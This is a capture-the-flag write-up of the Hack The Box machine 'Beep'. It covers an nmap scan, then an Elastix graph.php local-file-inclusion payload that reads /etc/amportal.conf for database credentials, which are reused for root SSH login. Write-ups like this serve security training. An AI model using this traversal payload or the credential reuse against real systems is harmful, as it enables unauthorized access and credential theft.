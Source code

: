 ```yaml
---
title: "HTB Beep"
date: 2023-07-19T08:49:17Z
draft: false
---
```

## Info
---
Writeup for the HTB machine [Beep](https://app.hackthebox.com/machines/5).

- my os: Kali 2023.2
- my ip: 10.10.14.6
- target ip: 10.10.10.7

If you can't reach the websites hosted on port 443 and 10000 of the victim because of `SSL_ERROR_UNSUPPORTED_VERSION` in firefox:
- go to advanced settings in firefox by typing `about:config`
- set `security.tls.version.enable-deprecated` to `true` (this is not recommended for your daily-driver os!)

## Scanning
---
```
$ nmap -sV -sC 10.10.10.7 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 08:54 UTC
Nmap scan report for 10.10.10.7
Host is up (0.059s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP PIPELINING STLS IMPLEMENTATION(Cyrus POP3 server v2) USER AUTH-RESP-CODE UIDL RESP-CODES APOP EXPIRE(NEVER) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            876/udp   status
|_  100024  1            879/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: MAILBOX-REFERRALS IDLE X-NETSCAPE NO UNSELECT CHILDREN QUOTA URLAUTHA0001 LIST-SUBSCRIBED UIDPLUS RENAME OK IMAP4rev1 THREAD=ORDEREDSUBJECT Completed CONDSTORE CATENATE ANNOTATEMORE LITERAL+ STARTTLS IMAP4 ACL RIGHTS=kxte MULTIAPPEND ATOMIC LISTEXT SORT=MODSEQ SORT BINARY ID NAMESPACE THREAD=REFERENCES
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
|_ssl-date: 2023-07-19T08:59:25+00:00; 0s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```
By surfing to https://10.10.10.7:443/ you'll see there is `Elastix` running.

By surfing to https://10.10.10.7:10000/ you'll see there is `Webmin` running.

## Gaining Access
---
By googling `elastix exploit` i found [Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.exploit-db.com/exploits/37637).
We grab LFI path and surf to it: `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
We can find the some credentials there there (AMPDBUSER and AMPDBPASS). Always check for password reuse!

Let's try them with ssh. Because there are some weak/outdated algorithms in use, we have to use some special parameters for ssh:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa  root@10.10.10.7
```
and we are root :)

Now just find the flags:
```
[root@beep ~]# find / -name user.txt
/home/fanis/user.txt
[root@beep ~]# find / -name root.txt
/root/root.txt
```
Happy hacking :)
